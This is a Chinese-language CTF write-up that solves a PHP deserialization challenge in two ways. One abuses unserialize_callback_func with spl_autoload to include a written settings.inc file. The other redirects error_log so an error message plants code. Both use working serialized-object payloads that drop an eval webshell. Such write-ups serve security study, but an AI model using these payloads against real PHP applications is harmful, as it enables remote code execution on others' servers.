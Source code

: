 ```yaml
---
title: "某群一道反序列化题"
date: 2021-05-02T16:24:32+08:00
---
```


> 五一忽然就要过了..感觉要学的好没学，考试也没复习，早上12点在某ctf群看到在讨论这道题，就起床做做了...

题目给出源码：

```php
<?php
highlight_file(__FILE__);
class main{
    public $settings;
    public $params;

    public function __construct(){
        $this->settings=array(
        'display_errors'=>'On',
        'allow_url_fopen'=>'On'
        );
        $this->params=array();
    }
    public function __wakeup(){
        foreach ($this->settings as $key => $value) {
            ini_set($key, $value);
        }
    }
    public function __destruct(){
        file_put_contents('settings.inc', unserialize($this->params));
    }
}
unserialize($_GET['data']); 
```

## 法一 反序列化回调函数+后缀文件包含

给了源码就好说，在本地测试一下。我们可以对`settings.inc`文件进行写入，那自然想到的就是写入一句话然后进行文件包含，找一下有没有原生调用函数的方法。

![image-20210504171255837](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-04-image-20210504171255837.png)

就在官网手册的**unserialize()** 处发现了这个函数，官方给出的实例是这样的

```php
<?php
$serialized_object='O:1:"a":1:{s:5:"value";s:3:"100";}';

// unserialize_callback_func 从 PHP 4.2.0 起可用
ini_set('unserialize_callback_func', 'mycallback'); // 设置您的回调函数

function mycallback($classname) 
{
   // 只需包含含有类定义的文件
   // $classname 指出需要的是哪一个类
}
?>
```

看到这个`ini_set()`...居然和题目的`__wakeup()`一模一样，那百分之百没得跑了。具体来说只要反序列化实例不存在的类，调用`unserialize_callback_func`就会把类名作为参数传递给回调函数。那么我们的回调函数设置为什么呢？第一个想到的是`include`，但这有一个问题。

如果要包含`settings.inc`，就得实例化这个类，但php类名是不能存在`.`这个字符的，over，翻手册，找到了
一个`spl_autoload`函数。

![image-20210504235914738](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-04-image-20210504235914738.png)

这个函数支持使用`spl_autoload_extensions`拓展文件名

```php
<?php
spl_autoload_extensions(".php,.inc");
?>
```

如果没有，则默认这两个都拓展。拿一个小demo测试一下。

```php
<?php
ini_set("unserialize_callback_func","spl_autoload");
class main{
    public $a;
    public function __construct()
    {
        $this->a=new settings;
    }
}
// $demo=new main;
$string='O:4:"main":1:{s:1:"a";O:8:"settings":0:{}}';
var_dump(unserialize($string));
```

在`settings.inc`中写入`<?php echo "hello world"?>`

![image-20210505001830321](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505001830321.png)

在实例化**settings**这个类时调用了回调函数，执行`spl_autoload('settings')`，成功进行文件包含，那原题思路就很清晰了。

```php
<?php
class settings{}
class main{
    public $settings=array("unserialize_callback_func"=>"spl_autoload");
    public $params;
    public function __construct()
    {
        $this->params=serialize('<?php @eval($_POST[theoyu]) ?>');  
        /* $this->params=serialize(new settings);*/
    }
}
$demo =new main;
echo serialize($demo);
```

先写入一句话木马，再执行注释部分文件包含即可。

## 法二 利用错误信息写入一句胡

在群里看到有人说好像利用`err_log()`方法可以将报错的信息写入指定的文件，有点像phpmyadmin日志写马那种，我也尝试了一下。

```php
<?php
ini_set("error_log","err.php");
ini_set("unserialize_callback_func",'<?php eval($_POST[theoyu]); ?>');
class main{
    public $a;
    public function __construct()
    {
        $this->a=new settings;
    }
}
// $demo=new main;
$string='O:4:"main":1:{s:1:"a";O:8:"settings":0:{}}';
var_dump(unserialize($string));
```

思路是回调函数可控，调用回调函数时如果不存在就会报错，然后把函数设置为一句话即可。

![image-20210505005235360](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505005235360.png)

![image-20210505005919242](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505005919242.png)

看群里好像是有人为了防止`<$`类似字符转义，多加了一个`html_errors=true`,结果导致被转义了...

![image-20210505010415279](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505010415279.png)

看来是这位师傅多此一举，事实上出题人确实可以用默认为转义模式，需要我们构造`html_errors=false`去反转义，也是一个思路。